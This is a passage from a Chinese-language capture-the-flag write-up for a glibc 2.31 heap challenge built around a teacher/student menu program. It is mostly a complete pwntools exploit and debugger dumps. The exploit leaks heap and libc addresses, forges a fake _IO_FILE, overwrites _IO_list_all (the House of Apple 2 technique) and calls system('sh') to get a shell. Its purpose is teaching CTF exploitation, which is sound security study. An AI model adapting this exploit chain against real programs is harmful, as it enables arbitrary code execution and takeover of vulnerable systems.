fake_io += p64(0)  												# _IO_write_base _IO_write_ptr > _IO_write_base
fake_io += p64(1)  												# _IO_write_ptr  为了通过检查,接下来会强制flush
fake_io += p64(0)  												# _IO_write_end
fake_io += p64(0)  												# _IO_buf_base;
fake_io += p64(0) 												# _IO_buf_end should usually be (_IO_buf_base + 1)
fake_io += p64(0) * 4  											# from _IO_save_base to _markers
fake_io += p64(0)  												# the FILE chain ptr
fake_io += p32(2)  												# _fileno for stderr is 2
fake_io += p32(0)  												# _flags2, usually 0
fake_io += p64(0xFFFFFFFFFFFFFFFF)  							# _old_offset, -1
fake_io += p16(0)  												# _cur_column
fake_io += b"\x00"  											# _vtable_offset
fake_io += b"\n"  												# _shortbuf[1]
fake_io += p32(0)  												# padding
fake_io += p64(_IO_stdfile_2_lock)  							# _IO_stdfile_1_lock
fake_io += p64(0xFFFFFFFFFFFFFFFF)  							# _offset, -1
fake_io += p64(0)  												# _codecvt, usually 0
fake_io += p64(IO_wide_data_addr)  								# _IO_wide_data_1 _wide_data结构体
fake_io += p64(0) * 3  											# from _freeres_list to __pad5
fake_io += p32(0xFFFFFFFF)  									# _mode, usually -1     mode < 0
fake_io += b"\x00" * 19  										#_unused2
fake_io = fake_io.ljust(0xe8, b'\x00')  						#adjust to vtable
fake_io += p64(libc_base+libc.sym['_IO_wfile_jumps'])  			#fake vtable
fake_io += p64(wide_vtable_addr) 								#_wide_data结构体中的虚表地址
fake_io += p64(system_addr) 									#wide_vtable_addr=file_addr+0xe8-0x68

change(0)
tea_comment(2,0x100,fake_io)									#写入
~~~

题目没有符号表，我强行让gdb输出的，只能看最基础的，不过也够了 :( ，可以看出我们的布局十分完美

### 触发攻击

我们要想要触发，就要修改 `IO_list_all` 指向我们部署好的 `file_addr` 然后让程序**正常退出(double free之类的异常退出失效了)**，虽然程序没有给exit函数，但是我们把学生删完了再切换到学生模式是一样的效果

我们前面修改了 `stu_1` 的 `comment_chunk` 和 `mode_chunk`，我们需要修复，负责会 `double free`

~~~python
#我们需要修改 0x568d008ff630: 0x0000568d008ff650 和 0x568d008ff658: 0x0000568d008ff2f0
#让comment_chunk和mode_chunk修改IO_list_all,后面的修复都是一样的,随便都可以
#我选择让comment_chunk指向0x568d008ff630,size改成0x30,用mode_chunk修改IO_list_all后
#用comment_chunk一次性修复0x568d008ff630-0x568d008ff650

#注意,为了美观我修改了下面堆基址和第一次保持一致,不影响里面的内容
(当前)
0x568d008ff630: 0x0000568d008ff650      0x0000000000000000
0x568d008ff640: 0x0000000000000000      0x0000000000000021
0x568d008ff650: 0x0000000000000001      0x0000568d008ff2f0
0x568d008ff660: 0x0000000000000008      0x000000000000000a

(初始)
0x568d008ff630: 0x0000568d008ff670      0x0000000000000000
0x568d008ff640: 0x0000000000000000      0x0000000000000021
0x568d008ff650: 0x0000000300000001     	0x0000568d008ff6a0
0x568d008ff660: 0x0000000000000100		0x0000000000000031

------------------------(第一步)-------------------------------
change(1)
stu_id(1)
payload = p64(1) + p64(heap_base + 0x630) + p64(0x30) + p64(0x31)
stu_mode(payload)

0x568d008ff630: 0x0000568d008ff650      0x0000000000000000
0x568d008ff640: 0x0000000000000000      0x0000000000000021
0x568d008ff650: 0x0000000000000001      0x0000568d008ff630
0x568d008ff660: 0x0000000000000030      0x0000000000000031

------------------------(第二步)-------------------------------
stu_pray()
stu_mode("48")							#修改mode_chunk指向0x568d008ff630
stu_pray()
stu_mode(p64(IO_list_all))				#修改mode_chunk指向IO_list_all
stu_mode(p64(heap_base + 0x810))		#修改IO_list_all指向file_addr

0x568d008ff630: 0x000071f9cbb0c5a0      0x000000000000000a
0x568d008ff640: 0x0000000000000000      0x0000000000000021
0x568d008ff650: 0x0000000000000001      0x0000568d008ff630
0x568d008ff660: 0x0000000000000030      0x0000000000000031

pwndbg> p/x &_IO_list_all
$1 = 0x71f9cbb0c5a0
pwndbg> x/2gx 0x71f9cbb0c5a0
0x71f9cbb0c5a0 <_IO_list_all>:  0x0000568d008ff810      0x000000000000000a

------------------------(第三步)-------------------------------
change(0)
payload = p64(heap_base + 0x670) + p64(0)*2 + p64(0x21) + p64(1) + p64(heap_base + 0x6A0)
tea_comment(1,0x30,payload)				#修复stu_1 mode_chunk和comment_chunk

0x568d008ff630: 0x0000568d008ff670      0x0000000000000000
0x568d008ff640: 0x0000000000000000      0x0000000000000021
0x568d008ff650: 0x0000000000000001      0x0000568d008ff6a0
0x568d008ff660: 0x0000000000000030      0x0000000000000031

------------------------(第四步)-------------------------------
tea_free(2)
tea_free(1)

change(1)

io.interactive()
~~~

## 完整exp

~~~python
from pwn import *
from struct import pack
#context(arch = 'i386', os = 'linux',log_level='debug')
context(arch = 'amd64',os = 'linux',log_level='debug')

#io = process('./pwn')
#ld_path m './ld-2.31.so'
#libc_path = './1.so'
#binary_path = './pwn'
#io = process([ld_path, binary_path], env={'LD_PRELOAD': libc_path})
#io = remote('node5.buuoj.cn','25109')

io = process('./pwn_patched')
#io = remote('39.96.193.120','10015')
context.terminal = ['tmux', 'splitw', '-v']
libc = ELF('./1.so')
elf = ELF('./pwn_patched')
######################配置信息####################

io.sendlineafter(b'<0.teacher/1.student>:',b'0')

def change(role):
    io.sendlineafter(b'choice>> ',b'5')
    io.sendlineafter(b'role: <0.teacher/1.student>:',str(role))

def tea_add(num):
    io.sendlineafter(b'choice>> ',b'1')
    io.sendlineafter(b'of questions:',str(num))
    io.recvuntil(b'finish\n')

def tea_score():
    io.sendlineafter(b'choice>> ',b'2')
    io.recvuntil(b'finish\n')

def tea_comment(index,size,content):
    io.sendlineafter(b'choice>> ',b'3')
    io.sendlineafter(b'which one? > ',str(index))
    if io.recvuntil(b'enter your comment:\n',timeout=1):
        io.sendline(content)
        io.recvuntil(b'finish\n')
    else:
        io.sendlineafter(b'the size of comment: ',str(size))
        io.sendlineafter(b'enter your comment:\n',content)
        io.recvuntil(b'finish\n')

def tea_free(index):
    io.sendlineafter(b'choice>> ',b'4')
    io.sendlineafter(b'id to choose?\n',str(index))
    io.recvuntil(b'Say goodbye to him/her!')

def stu_id(index):
    io.sendlineafter(b'choice>> ',b'6')
    io.sendlineafter(b'input your id:',str(index))
    io.recvuntil(f"hello, student {str(index)}")

def stu_show(addr):
    io.sendlineafter(b'choice>> ',b'2')
    if io.recvuntil(b'Good Job! Here is your reward!',timeout=1):
        heap_addr = int(io.recvuntil(b'\n',drop=True),16)
        io.sendlineafter(b'you want! addr: ',str(addr))
        return heap_addr

def stu_pray():
    io.sendlineafter(b'choice>> ',b'3')
    io.recvuntil(b'finish\n')

def stu_mode(content):
    io.sendlineafter(b'choice>> ',b'4')
    if io.recvuntil(b'enter your mode!',timeout=1):
        io.sendline(content)
        io.recvuntil(b'finish\n')
    elif io.recvuntil(b'enter your pray score: 0 to 100\n',timeout=1):
        io.sendline(content)
        io.recvuntil(b'finish\n')

tea_add(1)
tea_comment(0,0x328,b'AAAA')
tea_add(1)

change(1)
stu_id(1)
stu_mode(b'AAAA')
change(0)

payload = p64(0) * 15 + p64(0x21) + p64(0) * 3 + p64(0x21)
tea_comment(1,0x100,payload)
tea_add(2)
tea_comment(2,0x120,b'AAAA')
change(1)
stu_pray()
change(0)
tea_score()
change(1)

io.sendlineafter(b'choice>> ',b'2')
io.recvuntil(b'Good Job! Here is your reward!')
leak_addr = int(io.recvuntil(b'\n',drop=True),16)

heap_base = leak_addr & ~0xFFF
log.success(f"heap_base = {hex(heap_base)}")

payload = str(leak_addr + 0x49).encode() + b'X'
io.sendlineafter(b'you want! addr: ',payload)

change(0)
tea_free(0)

change(1)
stu_id(1)
stu_pray()

stu_mode("80")
stu_pray()
payload = p64(1) + p64(heap_base+0x2f0) + p64(0x8)
stu_mode(payload)

payload = str(leak_addr + 0x49).encode() + b'X'
stu_show(payload)

io.recvuntil(b'here is the review:\n')
main_arena = u64(io.recvuntil(b'1. do',drop=True).ljust(8,b'\x00'))-96

print(hex(main_arena))
libc_base = main_arena - 0x10 - libc.sym['__malloc_hook']
system_addr = libc_base + libc.sym['system']
IO_list_all = libc_base + libc.sym['_IO_list_all']
IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
log.success(f"libc_base = {hex(libc_base)}")
log.success(f"system_addr = {hex(system_addr)}")
log.success(f"IO_list_all = {hex(IO_list_all)}")
log.success(f"IO_wfile_jumps = {hex(IO_wfile_jumps)}")

file_addr = heap_base + 0x810
IO_wide_data_addr=file_addr
wide_vtable_addr=file_addr+0xe8-0x68
_IO_stdfile_2_lock = file_addr + 0x38

fake_io = b""
fake_io += p64(0) * 2
fake_io += b"  sh;".ljust(8, b'\x00')
fake_io += p64(0)
fake_io += p64(0)  # _IO_read_end
fake_io += p64(0)  # _IO_read_base
fake_io += p64(0)  # _IO_write_base     _IO_write_ptr > _IO_write_base
fake_io += p64(1)  # _IO_write_ptr      为了通过检查,接下来会强制flush
fake_io += p64(0)  # _IO_write_end
fake_io += p64(0)  # _IO_buf_base;
fake_io += p64(0)  # _IO_buf_end should usually be (_IO_buf_base + 1)
fake_io += p64(0) * 4  # from _IO_save_base to _markers
fake_io += p64(0)  # the FILE chain ptr
fake_io += p32(2)  # _fileno for stderr is 2
fake_io += p32(0)  # _flags2, usually 0
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _old_offset, -1
fake_io += p16(0)  # _cur_column
fake_io += b"\x00"  # _vtable_offset
fake_io += b"\n"  # _shortbuf[1]
fake_io += p32(0)  # padding
fake_io += p64(_IO_stdfile_2_lock)  # _IO_stdfile_1_lock
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _offset, -1
fake_io += p64(0)  # _codecvt, usually 0
fake_io += p64(IO_wide_data_addr)  # _IO_wide_data_1 _wide_data结构体
fake_io += p64(0) * 3  # from _freeres_list to __pad5
fake_io += p32(0xFFFFFFFF)  # _mode, usually -1         mode < 0
fake_io += b"\x00" * 19  #_unused2
fake_io = fake_io.ljust(0xe8, b'\x00')  #adjust to vtable
fake_io += p64(libc_base+libc.sym['_IO_wfile_jumps'])  #fake vtable
fake_io += p64(wide_vtable_addr) #_wide_data结构体中的虚表地址
fake_io += p64(system_addr) #wide_vtable_addr=file_addr+0xe8-0x68

change(0)
tea_comment(2,0x100,fake_io)

change(1)
stu_id(1)

payload = p64(1) + p64(heap_base + 0x630) + p64(0x30) + p64(0x31)

stu_mode(payload)

stu_pray()
stu_mode("48")
stu_pray()
stu_mode(p64(IO_list_all))
stu_mode(p64(heap_base + 0x810))

change(0)
payload = p64(heap_base + 0x670) + p64(0)*2 + p64(0x21) + p64(1) + p64(heap_base + 0x6A0)
tea_comment(1,0x30,payload)

tea_free(2)
tea_free(1)

change(1)

io.interactive()

gdb.attach(io)
pause()
~~~

## 结语

一个小插曲：目标环境虽然是 Glibc 2.31，但依然能够修改 `__malloc_hook` 等机制（实际上直到 2.34 版本 hook 才被彻底移除），不过本题通过劫持 `_IO_list_all` 走 House of Apple 2 依然是非常通用的高版本打法

如有问题可以联系：961583260@qq.com | 或者在github上提交一个 `issue` 